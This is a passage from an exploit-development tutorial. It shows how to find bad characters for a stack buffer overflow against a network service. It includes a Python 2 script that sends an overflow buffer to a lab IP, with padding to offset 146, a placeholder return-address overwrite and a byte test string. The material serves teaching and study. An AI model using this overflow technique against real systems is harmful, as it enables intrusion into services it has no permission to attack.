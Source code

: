 We know that `handleConnection()` "chunks" the messages we send to it based on
a newline character (`"\n"`, or alternatively "`\x0A"`). It calls
`doResponse()` separately for each newline-delimited message we send. If we
were to use the newline character anywhere in our exploit except to end the
message we send, it would break our message in to two distinct messages (which
would mean two distinct `CALL`'s to `doResponse()` and would cause our exploit
to fail or behave incorrectly.

This gives us `"\x00\x0A"` as a starting point for our badchars.

To be sure we haven't missed any others (or if, for any given program, you're
having trouble reasoning about which characters may be bad) we can adapt our
Python program to:

* Generate a test string containing every possible byte from `\x00` to `\xFF` except for `\x00` and `\x0A` (we'll do this using a `for` loop)
* Write that string to a binary file
* Put the string in to our payload in a convenient spot.
* Cause the program to crash

One such "convenient spot" at which to put the test string is the location at
which we know `ESP` will be pointing to at the time of the crash

Once the program has crashed, we can compare the file we saved on disk
containing our test string to the memory location pointed to by `ESP`. If it's
a match, we know we have listed all the badchars. If it's not a match, we can
dig in to what's different between the two and deduce further badchars.

\newpage

Our Python script, with the generation and saving of a test string, becomes:

```{.python .numberLines}
#!/usr/bin/env python2
import socket

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

badchar_test = ""         # start with an empty string
badchars = [0x00, 0x0A]   # we've reasoned that these are definitely bad

# generate the string
for i in range(0x00, 0xFF+1):     # range(0x00, 0xFF) only returns up to 0xFE
  if i not in badchars:           # skip the badchars
    badchar_test += chr(i)        # append each non-badchar char to the string

# open a file for writing ("w") the string as binary ("b") data
with open("badchar_test.bin", "wb") as f:
  f.write(badchar_test)

buf_totlen = 1024
offset_srp = 146

buf = ""
buf += "A"*(offset_srp - len(buf))    # padding
buf += "BBBB"                         # SRP overwrite
buf += badchar_test                   # ESP points here
buf += "D"*(buf_totlen - len(buf))    # trailing padding
buf += "\n"

s.send(buf)
```
